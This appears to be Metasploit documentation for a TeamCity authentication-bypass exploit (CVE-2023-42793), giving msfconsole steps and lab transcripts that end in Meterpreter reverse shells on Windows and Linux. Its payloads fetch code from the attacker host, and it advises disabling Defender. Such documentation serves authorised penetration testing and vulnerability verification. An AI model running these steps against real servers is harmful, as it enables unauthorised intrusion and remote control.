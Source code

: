 ## Vulnerable Application
This module exploits an authentication bypass vulnerability to achieve unauthenticated remote code execution
against a vulnerable JetBrains TeamCity server. All versions of TeamCity prior to version 2023.05.4 are
vulnerable to this issue. The vulnerability was originally discovered by SonarSource.

For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/1XEEEkGHzt/cve-2023-42793/rapid7-analysis).

## Testing
Download and install a vulnerable version of TeamCity for Windows, version
[2023.05.3](https://download.jetbrains.com/teamcity/TeamCity-2023.05.3.exe). By default the server will listen for HTTP
connections on port 8111.

## Verification Steps
Note: On Windows, disable Defender if you are using the default payloads.

Steps:
1. Start msfconsole
2. `use exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793`
3. `set RHOST 192.168.86.50`
4. `set RPORT 8111`
5. Set a Target:
    * `set target 0` for Windows.
    * `set target 1` for Linux.
6. Set a suitable command based PAYLOAD:
    * `set PAYLOAD cmd/windows/http/x64/meterpreter/reverse_tcp` for Windows.
    * `set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp` for Linux.
7. Change the FETCH_WRITABLE_DIR if needed:
    * `set FETCH_WRITABLE_DIR %TEMP%` for Windows.
    * `set FETCH_WRITABLE_DIR /tmp` for Linux.
8. `check`
9. `exploit`

## Scenarios

### Windows
```
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                               yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT               8111             yes       The target port (TCP)
   SSL                 false            no        Negotiate SSL/TLS for outgoing connections
   TeamCityAdminID     1                yes       The ID of an administrator account to authenticate as
   TeamCityRetryCount  10               yes       The number of times to retry reading the internal.properties file
   TeamCityRetryWait   3                yes       The number of seconds to wait between retry reading the internal.properties file
   VHOST                                no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      xwOdwhbLavjs     no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set RHOST 192.168.86.50
RHOST => 192.168.86.50
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set RPORT 8111
RPORT => 8111
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > check
[+] 192.168.86.50:8111 - The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) detected.
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) detected.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.c2ozbE1aYXdTNnhlVlRJRGdEeEU0c2VoQ1Qw.MTlkZjQ2YTktOTc1MS00YzRlLWEwMGEtYzE0ODEyZjZmMzIw
[*] Modifying internal.properties to allow process creation...
[*] Waiting for config change to be picked up...
[*] Waiting for config change to be picked up...
[*] Waiting for config change to be picked up...
[*] Executing payload...
[*] Resetting the internal.properties settings...
[*] Sending stage (200774 bytes) to 192.168.86.50
[*] Deleting the authentication token.
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:51978) at 2023-09-28 12:20:48 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 
```

### Linux
```
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS              192.168.86.43    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT               8111             yes       The target port (TCP)
   SSL                 false            no        Negotiate SSL/TLS for outgoing connections
   TeamCityAdminID     1                yes       The ID of an administrator account to authenticate as
   TeamCityRetryCount  10               yes       The number of times to retry reading the internal.properties file
   TeamCityRetryWait   3                yes       The number of seconds to wait between retry reading the internal.properties file
   VHOST                                no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      zpqZhbbEUzyX     no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) detected.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.Y0F2UmpEc01hQzVQRjl3a2V3QWxoZ1pzdlg4.MmRhZTM5OTctY2MxZS00YmExLWIzZmYtOTUxOWZlZTBhNWUw
[*] Modifying internal.properties to allow process creation...
[*] Waiting for config change to be picked up...
[*] Waiting for config change to be picked up...
[*] Executing payload...
[*] Sending stage (3045380 bytes) to 192.168.86.43
[*] Resetting the internal.properties settings...
[*] Deleting the authentication token.
[*] Meterpreter session 8 opened (192.168.86.42:4444 -> 192.168.86.43:50210) at 2023-09-28 14:43:13 +0100

meterpreter > sysinfo
Computer     : 192.168.86.43
OS           : Ubuntu 22.04 (Linux 6.2.0-33-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
